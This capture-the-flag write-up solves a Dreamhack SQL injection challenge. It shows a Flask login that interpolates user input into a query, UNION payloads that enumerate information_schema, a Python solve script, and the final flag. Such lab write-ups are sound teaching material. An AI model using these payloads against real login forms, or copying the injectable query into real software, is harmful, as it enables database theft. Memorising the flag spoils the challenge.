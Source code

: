 ```yaml
---
title: baby-union
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, dreamhack]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/984](https://dreamhack.io/wargame/challenges/984)

## Description

> This is a web service that prints out the information of your account when you log in.
> 
> Obtain a flag through ```SQL INJECTION VULNERABILITIES```. The table and column names in the ```init.sql``` file given in the problem are different from the actual names.
> 
> The flag format is ```DH{...}```.

### Attached

```sql
CREATE DATABASE secret_db;
GRANT ALL PRIVILEGES ON secret_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `secret_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null,
  descr varchar(128) not null
);

INSERT INTO users (uid, upw, descr) values ('admin', 'apple', 'For admin');
INSERT INTO users (uid, upw, descr) values ('guest', 'melon', 'For guest');
INSERT INTO users (uid, upw, descr) values ('banana', 'test', 'For banana');
FLUSH PRIVILEGES;

CREATE TABLE fake_table_name (
  idx int auto_increment primary key,
  fake_col1 varchar(128) not null,
  fake_col2 varchar(128) not null,
  fake_col3 varchar(128) not null,
  fake_col4 varchar(128) not null
);

INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```
{: file="init.sql" }

```py
import os
from flask import Flask, request, render_template
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'secret_db')
mysql = MySQL(app)

@app.route("/", methods = ["GET", "POST"])
def index():

    if request.method == "POST":
        uid = request.form.get('uid', '')
        upw = request.form.get('upw', '')
        if uid and upw:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")
            data = cur.fetchall()
            if data:
                return render_template("user.html", data=data)

            else: return render_template("index.html", data="Wrong!")

        return render_template("index.html", data="Fill the input box", pre=1)
    return render_template("index.html")


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
{: file="app.py" }

## Analyzation

Firstly, we need to have the table containing flag:

```py
login_info = {
    "uid": "any-string",
    "upw": "' UNION SELECT table_name, table_type, version, table_rows FROM information_schema.tables WHERE '1'='1"
}
```

Then the sql query will be

```sql
SELECT * FROM users WHERE uid='any-string' and upw='' UNION SELECT table_name, table_type, version, table_rows FROM information_schema.tables WHERE '1'='1';
```

The ```information_schema.tables``` table provides information about tables in databases. See more at [dev.mysql.com](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html).

Now we have table name, ```onlyflag```.

We need the columns' name, too. [```information_schema.columns```](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) will work

```py
login_info = {
    "uid": "any-string",
    "upw": "' UNION SELECT column_name, data_type, character_maximum_length, column_type FROM information_schema.columns WHERE table_name='onlyflag"
}
```

Now we have the columns, ```["idx", "sname", "svalue", "sflag", "sclose"]```.

## Solution

```py
import requests

URL = "http://host3.dreamhack.games:19276/"

def post(payload):
    response = requests.post(URL, data=payload)
    if response.status_code != 200:
        print(f"Failed to post {URL}: {response.status_code}")
        exit()
    return response.text

def exact(text: str):
    list = text.split('<th scope="row">')
    list = list[1:] # remove first element, not relevant information
    list = [item.split('</th>')[0] for item in list] # remove </th> tag
    return list

def print_response(response):
    for item in response:
        print(item)

login_infor = {
    "uid": "admin",
    "upw": "admin"
}

def get_flag_table_name():
    payload = "' UNION SELECT table_name, table_type, version, table_rows FROM information_schema.tables WHERE '1'='1"
    login_infor["upw"] = payload

    return exact(post(login_infor))

def get_flag_column_name(table_name: str):
    payload = f"' UNION SELECT column_name, data_type, character_maximum_length, column_type FROM information_schema.columns WHERE table_name='{table_name}"
    login_infor["upw"] = payload

    return exact(post(login_infor))

def get_flag(columns_name):
    payload = ""
    for i in range(3):
        payload += f"' UNION SELECT {columns_name[(i+2)%5]}, {columns_name[(i+3)%5]}, {columns_name[(i+4)%5]}, {columns_name[(i+1)%5]} FROM onlyflag WHERE '1'='1"
    login_infor["upw"] = payload
    return exact(post(login_infor))

if __name__ == "__main__":
    response = get_flag_table_name()
    # print_response(response)
    flag_table = response[-1]

    columns_name = get_flag_column_name(flag_table)
    # print_response(columns_name)

    flag = get_flag(columns_name)
    print(flag[0] + flag[1] + flag[2])
```

The flag is
```
DH{57033624d7f142f57f139b4c9e84bd78da77b4406896c386672f0cbb016f5873}
```